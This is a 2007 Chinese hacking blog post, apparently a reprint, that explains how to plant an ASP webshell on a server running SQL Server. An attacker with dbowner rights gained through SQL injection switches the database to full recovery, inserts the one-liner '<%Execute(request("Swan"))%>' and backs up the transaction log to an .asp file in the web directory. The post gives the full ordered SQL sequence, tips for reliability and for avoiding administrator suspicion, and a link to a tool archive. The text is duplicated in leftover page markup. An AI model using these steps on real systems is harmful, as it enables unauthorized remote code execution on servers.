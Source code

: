 ```yaml
---
title: LOG备份拿SHELL
description: 作者:小七dbowner通过注射得到一个shell应该不是什么难事情了，比较麻烦的是就算利用增量备份，仍然有很多不确定的因素，如果之前别人有过什么错误的写入信息，可能备份出来得到的还是一些不能用的500错误，如何能够提高成功率及重用性呢？如果单从调整增量备份的方式来看，尽管能够达到一些效果，但是方法比较复杂而且效果不明显。加上关于重用性的考虑，例如多次备份的成功率，backupdatabase的方法并不太适用。这里将要讲述的是另外一个备份的方法，导出日志文件到web目录来获得shell。获...
date: 2007-05-02 21:23:46
category: 技术文章
tags: ['技术类']
post_id: 9
alias: 9
ViewNums: 5817
---
```


作者: [小七](http://xiaoqi.80.hk/user.asp?act=view&id=1)

dbowner 通过注射得到一个shell应该不是什么难事情了，比较麻烦的是就算利用增量备份，仍然有很多不确定的因素，如果之前别人有过什么错误的写入信息，可能备份出来得到的还是一些不能用的500错误，如何能够提高成功率及重用性呢？如果单从调整增量备份的方式来看，尽管能够达到一些效果，但是方法比较复杂而且效果不明显。加上关于重用性的考虑，例如多次备份的成功率，backupdatabase的方法并不太适用。这里将要讲述的是另外一个备份的方法，导出日志文件到web目录来获得shell。
获得webshell首先要知道物理路径。关于物理路径的暴露有很多方法，注入也可以得到，就不再多说。值得注意的是，如果数据库和web分离，这样肯定得不到webshell，备份出来的东西可以覆盖任何文件，一些关于开始菜单的想法还是有效的，只要注意扩展名就好。扯远了，反正如果数据库和web在一块的，你就有机会，反之还是想其他的办法吧。
然后你要得到当前的权限和数据库名。如果是sysadmin当然没有必要做很复杂的事情，dbowner足矣，public则不行。当前打开的库名用一个db_name()就可以得到，同样很简单。
默认的情况是，一般选择的数据库故障还原类型都是简单，这时候不能够对日志文件进行备份。然而我们都是dbowner了，还有什么不能做的呢，只要修改一下属性就可以。由于不能去企业管理器中修改，只有用一段SQL语句，很简单的，这样就可以：

alterdatabaseXXXXsetRECOVERYFULL

其中XXXX是你得到的数据库的名字，执行过后就可以备份日志了。这种修改是破坏性的，因为你不知道以前的故障还原模式是什么，细心的管理员看到异样，可能就要开始起疑心。如果之前你能得到数据库的状态，最好还是在备份完以后把这个数据库的属性改回来。

剩下的事情就是怎样让数据库用最原始的方式记录下你的数据了。这一点和backupdatabase中设定表名为image的问题相对应，如果你只是建立一个<%%>之类的表，日志里面的记录还是以松散的格式记录的，也就是<%%>，没有任何效果。通过实际的测试，发现还是可以通过与backupdatabase类似的方式记录进去，如下：

createtablecmd(aimage)
insertintocmd(a)values('<%Execute(request("Swan"))%>')
backuplogXXXXtodisk='c:xxx2.asp'

这样你已经得到一个webshell了。

到这里就完了么？没有，呵呵，我们继续。
到这里有两个分支方向，第一个，让注入的时候不出现单引号，太简单了，我都懒得写；第二个，减小这个webshell的长度以及提高成功率。下面的方法就是讨论第二个分支问题的，同样适用于backupdatabase的减小。
首先是初始化这个日志。

backuplogXXXXtodisk='c:caonima'withinit

这样有点类似于增量备份的第一步，不过有点不同的是，你做了这个以后，你备份出来的可用的shell是固定的。这一点比较重要，因为有了这一步，不管管理员在数据库里面做了什么扰乱你backdatabase的手脚，或者你之前有多少混蛋（你肯定会这么想的）弄了些你不喜欢的东西，都没有关系，甚至你做过以后，别人在后面再按照你的方法来一次，还是会成功，这对于偶尔出现的反复，比如对方机器重装但是数据库和代码没变，有不小的帮助。
然后是调整一下backup中各个语句的顺序。通过第一点，大概的步骤已经确定下来了，那就是：

alterdatabaseXXXXsetRECOVERYFULL
backuplogXXXXtodisk='c:Sammy'withinit
createtablecmd(aimage)
insertintocmd(a)values('<%Execute(request("Swan"))%>')
backuplogXXXXtodisk='c:xxx2.asp'

这样不好，感觉上多了一条没用的东西。

createtablecmd(aimage)

确实有点讨厌，不过这句是必要的，只好调整一下位置，弄到其他地方去。调换一下顺序似乎还可以小一点，对于backupdatabase中的增量情况同样是可以的，backupdatabase甚至可以仅仅在update后马上备份，不过由于涉及到了数据的存储格式，情况很复杂，这里不讨论。调整后的是：

alterdatabaseXXXXsetRECOVERYFULL
createtablecmd(aimage)
backuplogXXXXtodisk='c:Sammy'withinit
insertintocmd(a)values('<%Execute(request("Swan"))%>')
backuplogXXXXtodisk='c:xxx2.asp'

成功的话，备份出来的shell（上面的2.asp）有78.5k，文件长度固定的是80,384字节。很挑剔的朋友也可以接受了吧，当然用这个来生成一个干净的木马也可以&mdash;&mdash;这本来就是顶端cs木马的s端，很通用的。
进一步的，虽然不能再次缩小这个木马了，但是可以让垃圾文件少一点，那就是加上response.end，这样后面的垃圾数据就不再显示。所有的垃圾数据，你可以统计一下，大约只有6~12k，也就是说，<%Execute(request("Swan"))%>这个数据大约在2.asp文件偏移6xxx到12xxx附近，最好的情况似乎在6k左右，而且这个概率分布比较靠前，很少见到10k以上。这还是比较令人满意的。

目前用backuplog来测试的成功率是100%，就这样分析似乎不应该有失败的情况。无论如何，这个比backupdatabase好太多了。

<img src="eWebEditor_v280_Free/SysImage/file/rar.gif" onmouseover="javascript:if(this.width>520)this.width=520;" style="CURSOR: hand" onclick=javascript:window.open(this.src); onload="javascript:if(this.width>520)this.width=520;" align=absmiddle border="0"><A HREF="/userfile/eviloctal.org/zhouzhen/edit/2006329144551316.rar" TARGET=_blank>GetWebShell.rar</A>
</font></div>
<div align="right">【字体大小：<a onclick="main.size=3" style="cursor:hand;">大</a>
<a onclick="main.size=2" style="cursor:hand;">中</a>
<a onclick="main.size=1" style="cursor:hand;">小</a>】
【<a onclick="allinfo.select();document.execCommand('Copy');alert('复制完成')" style="cursor:hand;">复制源文件</a>】
<TEXTAREA name="allinfo" id="allinfo" style="width:0;height:0xp">
[转载]backup log to get a webshell
作者：admin [bAck iN BLack]
来源：[http://zhouzhen.eviloctal.org/Look.asp?LogID=822](http://zhouzhen.eviloctal.org/Look.asp?LogID=822 "http://zhouzhen.eviloctal.org/Look.asp?LogID=822")
dbowner通过注射得到一个shell应该不是什么难事情了，比较麻烦的是就算利用增量备份，仍然有很多不确定的因素，如果之前别人有过什么错误的写入信息，可能备份出来得到的还是一些不能用的500错误，如何能够提高成功率及重用性呢？如果单从调整增量备份的方式来看，尽管能够达到一些效果，但是方法比较复杂而且效果不明显。加上关于重用性的考虑，例如多次备份的成功率，backup database的方法并不太适用。这里将要讲述的是另外一个备份的方法，导出日志文件到web目录来获得shell。
获得webshell首先要知道物理路径。关于物理路径的暴露有很多方法，注入也可以得到，就不再多说。值得注意的是，如果数据库和web分离，这样肯定得不到webshell，备份出来的东西可以覆盖任何文件，一些关于开始菜单的想法还是有效的，只要注意扩展名就好。扯远了，反正如果数据库和web在一块的，你就有机会，反之还是想其他的办法吧。
然后你要得到当前的权限和数据库名。如果是sysadmin当然没有必要做很复杂的事情，dbowner足矣，public则不行。当前打开的库名用一个db_name()就可以得到，同样很简单。
默认的情况是，一般选择的数据库故障还原类型都是简单，这时候不能够对日志文件进行备份。然而我们都是dbowner了，还有什么不能做的呢，只要修改一下属性就可以。由于不能去企业管理器中修改，只有用一段SQL语句，很简单的，这样就可以：

alter database XXXX set RECOVERY FULL

其中XXXX是你得到的数据库的名字，执行过后就可以备份日志了。这种修改是破坏性的，因为你不知道以前的故障还原模式是什么，细心的管理员看到异样，可能就要开始起疑心。如果之前你能得到数据库的状态，最好还是在备份完以后把这个数据库的属性改回来。

剩下的事情就是怎样让数据库用最原始的方式记录下你的数据了。这一点和backup database中设定表名为image的问题相对应，如果你只是建立一个<%%>之类的表，日志里面的记录还是以松散的格式记录的，也就是< % % >，没有任何效果。通过实际的测试，发现还是可以通过与backup database类似的方式记录进去，如下：

create table cmd (a image)
insert into cmd (a) values ('<%Execute(request("Swan"))%>')
backup log XXXX to disk = 'c:xxx2.asp'

这样你已经得到一个webshell了。

到这里就完了么？没有，呵呵，我们继续。
到这里有两个分支方向，第一个，让注入的时候不出现单引号，太简单了，我都懒得写；第二个，减小这个webshell的长度以及提高成功率。下面的方法就是讨论第二个分支问题的，同样适用于backup database的减小。
首先是初始化这个日志。

backup log XXXX to disk = 'c:caonima' with init

这样有点类似于增量备份的第一步，不过有点不同的是，你做了这个以后，你备份出来的可用的shell是固定的。这一点比较重要，因为有了这一步，不管管理员在数据库里面做了什么扰乱你back database的手脚，或者你之前有多少混蛋（你肯定会这么想的）弄了些你不喜欢的东西，都没有关系，甚至你做过以后，别人在后面再按照你的方法来一次，还是会成功，这对于偶尔出现的反复，比如对方机器重装但是数据库和代码没变，有不小的帮助。
然后是调整一下backup中各个语句的顺序。通过第一点，大概的步骤已经确定下来了，那就是：

alter database XXXX set RECOVERY FULL
backup log XXXX to disk = 'c:Sammy' with init
create table cmd (a image)
insert into cmd (a) values ('<%Execute(request("Swan"))%>')
backup log XXXX to disk = 'c:xxx2.asp'

这样不好，感觉上多了一条没用的东西。

create table cmd (a image)

确实有点讨厌，不过这句是必要的，只好调整一下位置，弄到其他地方去。调换一下顺序似乎还可以小一点，对于backup database中的增量情况同样是可以的，backup database甚至可以仅仅在update后马上备份，不过由于涉及到了数据的存储格式，情况很复杂，这里不讨论。调整后的是：

成功的话，备份出来的shell（上面的2.asp）有78.5k，文件长度固定的是80,384字节。很挑剔的朋友也可以接受了吧，当然用这个来生成一个干净的木马也可以&mdash;&mdash;这本来就是顶端cs木马的s端，很通用的。
进一步的，虽然不能再次缩小这个木马了，但是可以让垃圾文件少一点，那就是加上response.end，这样后面的垃圾数据就不再显示。所有的垃圾数据，你可以统计一下，大约只有6~12k，也就是说，<%Execute(request("Swan"))%>这个数据大约在2.asp文件偏移6xxx到12xxx附近，最好的情况似乎在6k左右，而且这个概率分布比较靠前，很少见到10k以上。这还是比较令人满意的。

目前用backup log来测试的成功率是100%，就这样分析似乎不应该有失败的情况。无论如何，这个比backup database好太多了。

